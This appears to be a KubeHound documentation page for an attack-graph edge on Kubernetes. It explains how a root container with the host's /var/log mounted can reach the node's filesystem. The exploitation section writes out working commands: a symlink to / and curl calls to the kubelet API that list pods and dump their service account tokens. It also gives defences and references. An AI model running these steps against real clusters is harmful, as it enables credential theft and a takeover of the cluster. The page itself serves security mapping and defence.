 # TOKEN_VAR_LOG_SYMLINK

Steal all K8s API tokens from a node via an exposed `/var/log` mount.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

A pod running as root and with a mount point to the node’s `/var/log` directory can expose the entire contents of its host filesystem to any user who has access to its logs, enabling an attacker to steal all K8s API tokens present on the K8s node. See [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) for a more detailed explanation of the technique.

## Prerequisites

Execution as root within a container process with the host `/var/log/` (or any parent directory) mounted inside the container.

See the [example pod spec](../../test/setup/test-cluster/attacks/TOKEN_VAR_LOG_SYMLINK.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_MOUNT](./VOLUME_MOUNT.md#checks) If the host `/var/log` (or any parent directory) is mounted, this attack will be possible. Example output below:

```bash
cat /proc/self/mounts

...
/dev/vda1 on /host/var/log type ext4 (rw,relatime)
...
```

```bash
# Examine the directory structure of any hostPath mounts to verify it is the log directory
ls -la /host/var/log
total 24
drwxr-xr-x 5 root root 4096 Mar  2 09:49 .
drwxr-xr-x 3 root root 4096 Mar  8 10:31 ..
-rw-r--r-- 1 root root  775 Mar  4 18:13 alternatives.log
drwxr-xr-x 2 root root 4096 Mar  8 10:46 containers
drwxr-xr-x 3 root root 4096 Mar  2 09:49 kubernetes
drwxr-xr-x 8 root root 4096 Mar  8 10:31 pods

ls -la /host/var/log/pods
total 32
drwxr-xr-x  8 root root 4096 Mar  8 10:31 .
drwxr-xr-x  5 root root 4096 Mar  2 09:49 ..
drwxr-xr-x  3 root root 4096 Mar  8 10:31 default_log-escape-pod_f262a349-c3bb-4561-9496-c3182f8d1256
```

## Exploitation

Setup the symlink:

```bash
ln -s / /host/var/log/root_link
```

Call the kubelet API to read the “logs” and extract pod service account tokens:

```bash
$ KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NODEIP=$(ip route | awk '/^default/{print $3}')

# Find all the pods
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/

# <pre>
# <a href="10b90d62-6b16-4aa7-9e72-75f18dcca5a8/">10b90d62-6b16-4aa7-9e72-75f18dcca5a8/</a>
# <a href="2254e754-fbe0-48c4-b0c8-236a232fa510/">2254e754-fbe0-48c4-b0c8-236a232fa510/</a>
# <a href="324fe80e-e10e-462b-b046-be4c15e91b4e/">324fe80e-e10e-462b-b046-be4c15e91b4e/</a>
# <a href="5a9fc508-8410-444a-bf63-9f11e5979bee/">5a9fc508-8410-444a-bf63-9f11e5979bee/</a>
# <a href="a1176593-34a2-43e6-8bdd-ed10fa148fe7/">a1176593-34a2-43e6-8bdd-ed10fa148fe7/</a>
# <a href="a83a37cf-01ea-4b4c-ad19-f67e374cf255/">a83a37cf-01ea-4b4c-ad19-f67e374cf255/</a>
# <a href="dfbf38ad-2e92-44e0-b05b-8859350b6ea5/">dfbf38ad-2e92-44e0-b05b-8859350b6ea5/</a>
# </pre>

# Dump the token
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token

# eyJhbGciOiJSUzI1NiIsImtpZCI6I****REDACTED****
```

Cleanup the symlink when exploitation is complete:

```bash
rm /host/var/log/root_link
```

NOTE: the above assumes the serviceaccount has access to read logs. If *not* replace the token for any user token which should normally have logs access.

## Defences

### Monitoring

+ Monitor for suspicious symlink creation in the `/var/log` directory.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/var/log` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [TokenVarLogSymlink](../../pkg/kubehound/graph/edge/token_var_log_symlink.go)

## References:

+ [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) 
+ [Kubelet API · Deep Network](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)
